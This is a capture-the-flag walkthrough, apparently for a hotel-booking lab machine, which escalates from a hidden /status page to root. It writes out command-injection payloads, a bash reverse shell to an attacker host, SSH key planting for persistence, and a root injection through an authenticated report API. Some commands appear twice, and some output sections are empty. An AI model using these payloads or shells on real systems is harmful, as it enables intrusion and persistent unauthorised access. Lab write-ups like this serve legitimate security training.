
After deploying the machine, browse to the target web application.
http://<TARGET-IP>
http://<TARGET-IP>
The website appeared to be a standard hotel booking application with no obvious attack surface.
Basic web enumeration was performed by checking the page source, robots.txt, and JavaScript files.
curl http://<TARGET-IP>/robots.txt
curl http://<TARGET-IP>/robots.txtview-source:http://<TARGET-IP>/static/app.js
view-source:http://<TARGET-IP>/static/app.jsInside app.js, developer comments exposed hidden functionality.
// TODO(ops): the staff connectivity tool at /status posts to the legacy
// /internal/netcheck handler.
// Keep it out of the public nav until the new auth gateway ships.
// Disallowed in robots.txt for now.
console.log("Stay Noticed™");// TODO(ops): the staff connectivity tool at /status posts to the legacy
// /internal/netcheck handler.
// Keep it out of the public nav until the new auth gateway ships.
// Disallowed in robots.txt for now.
console.log("Stay Noticed™");/status/internal/netcheck
Browsing to:
http://<TARGET-IP>/status
http://<TARGET-IP>/statusrevealed a Sister-property Connectivity page.
The application accepted a hostname/IP address and performed a connectivity check, suggesting that a system command such as ping was being executed on the backend.
This indicated a potential OS Command Injection vulnerability.

Several payloads were tested.
127.0.0.1;id
127.0.0.1;id127.0.0.1$(id)
127.0.0.1$(id)127.0.0.1;id;#
127.0.0.1;id;#The application returned the output of the injected commands, confirming successful OS Command Injection.


The user flag could even be read directly through the vulnerable parameter.
127.0.0.1;id && pwd && ls && cat user.txt
127.0.0.1;id && pwd && ls && cat user.txt
A Netcat listener was started.
nc -lvnp 5456
nc -lvnp 5456A Bash reverse shell payload was injected.
127.0.0.1;/bin/bash -c '/bin/bash -i >& /dev/tcp/<ATTACKER-IP>/5456 0>&1'
127.0.0.1;/bin/bash -c '/bin/bash -i >& /dev/tcp/<ATTACKER-IP>/5456 0>&1'The target connected back successfully, providing an interactive shell as the web user.
To obtain a more stable shell, SSH key authentication was configured.
Generate an RSA key pair.
ssh-keygen -t rsa -b 2048 -f ./ctf_key -N ""
ssh-keygen -t rsa -b 2048 -f ./ctf_key -N ""
Create the SSH directory.
mkdir -p /home/web/.ssh chmod 700 /home/web/.ssh
mkdir -p /home/web/.ssh
chmod 700 /home/web/.sshInitially,
chmod 600 /home/web/.ssh/authorized_keys
chmod 600 /home/web/.ssh/authorized_keysreturned:
chmod: cannot access '/home/web/.ssh/authorized_keys': No such file or directory
chmod: cannot access '/home/web/.ssh/authorized_keys': No such file or directoryThe public key was Base64 encoded for transfer.
base64 -w0 ctf_key.pub
base64 -w0 ctf_key.pubThe key was written to:
/home/web/.ssh/authorized_keys
/home/web/.ssh/authorized_keys
Correct permissions were then applied.
chmod 600 /home/web/.ssh/authorized_keys chown -R web:web /home/web/.ssh
chmod 600 /home/web/.ssh/authorized_keys
chown -R web:web /home/web/.sshSSH access was established.
ssh -i ctf_key web@<TARGET-IP>
ssh -i ctf_key web@<TARGET-IP>After obtaining a stable shell, basic enumeration was performed.
whoami id pwd uname -a cat /etc/os-release
whoami
id
pwd
uname -a
cat /etc/os-releaseOutput confirmed:

Running processes were inspected.
ps aux
ps auxInteresting custom services included:
The automation service was running with root privileges, making it a potential privilege escalation target.

Inspect available systemd services.
ls -la /etc/systemd/system/
ls -la /etc/systemd/system/Interesting services included:
cc-automation.service cc-edge.service cc-watchtower.service
cc-automation.service
cc-edge.service
cc-watchtower.service
View the service definitions.
cat /etc/systemd/system/cc-automation.service cat /etc/systemd/system/cc-watchtower.service
cat /etc/systemd/system/cc-automation.service
cat /etc/systemd/system/cc-watchtower.serviceThe configuration revealed two localhost services.
| Service | Address |
|---|---|
| Automation | 127.0.0.1:9000 |
| Watchtower | 127.0.0.1:3000 |
Since both services were bound to localhost, they could only be accessed after obtaining a shell.

Test the health endpoint.
curl http://127.0.0.1:3000/health
curl http://127.0.0.1:3000/healthThe request returned 404 Not Found.
Using the correct API endpoint:
curl http://127.0.0.1:3000/api/health
curl http://127.0.0.1:3000/api/healthResponse:
{
"bind":"127.0.0.1:3000",
"service":"watchtower",
"status":"ok"
}{
"bind":"127.0.0.1:3000",
"service":"watchtower",
"status":"ok"
}Next, inspect the configuration endpoint.
curl http://127.0.0.1:3000/api/config
curl http://127.0.0.1:3000/api/configThe response disclosed:

Inspect the installed module versions.
grep -i version /var/www/html/admin/modules/ucp/module.xml grep -i version /var/www/html/admin/modules/userman/module.xml
grep -i version /var/www/html/admin/modules/ucp/module.xml
grep -i version /var/www/html/admin/modules/userman/module.xmlThe installed modules matched a vulnerable FreePBX release affected by CVE-2026-46378.



Using the credentials recovered from /api/config, authentication to the FreePBX User Control Panel (UCP) was successful.
After logging in, a valid Bearer Token for the Automation API was obtained.


The Automation service exposed an authenticated endpoint used to generate reports.
A crafted request was sent using the recovered Bearer token.
curl -sS \
-X POST \
http://127.0.0.1:9000/jobs/export \
-H "Authorization: Bearer <TOKEN>" \
-H "Content-Type: application/json" \
--data-binary '{"report":"test;id;#"}'curl -sS \
-X POST \
http://127.0.0.1:9000/jobs/export \
-H "Authorization: Bearer <TOKEN>" \
-H "Content-Type: application/json" \
--data-binary '{"report":"test;id;#"}'Response:
uid=0(root) gid=0(root) groups=0(root)
uid=0(root)
gid=0(root)
groups=0(root)This confirmed that the report parameter was vulnerable to OS Command Injection, allowing arbitrary commands to execute with root privileges.

Using vulnerable report parameter ran
whoami
whoamiOutput:
root
rootand Retrieved the root flag.
cat /root/root.txt
cat /root/root.txt
If Attacker do the same here creating the ssh public key the machine will completely compromised.
Website Enumeration
│
▼
Source Code Review
│
▼
Hidden /status Endpoint
│
▼
OS Command Injection
│
▼
Reverse Shell
│
▼
SSH Persistence
│
▼
User Enumeration
│
▼
Custom Service Enumeration
│
▼
Watchtower API
│
▼
Configuration Disclosure
│
▼
FreePBX Credentials
│
▼
FreePBX Authentication
│
▼
Bearer Token
│
▼
Automation API Command Injection
│
▼
Root Access
│
▼
Root FlagWebsite Enumeration
│
▼
Source Code Review
│
▼
Hidden /status Endpoint
│
▼
OS Command Injection
│
▼
Reverse Shell
│
▼
SSH Persistence
│
▼
User Enumeration
│
▼
Custom Service Enumeration
│
▼
Watchtower API
│
▼
Configuration Disclosure
│
▼
FreePBX Credentials
│
▼
FreePBX Authentication
│
▼
Bearer Token
│
▼
Automation API Command Injection
│
▼
Root Access
│
▼
Root Flag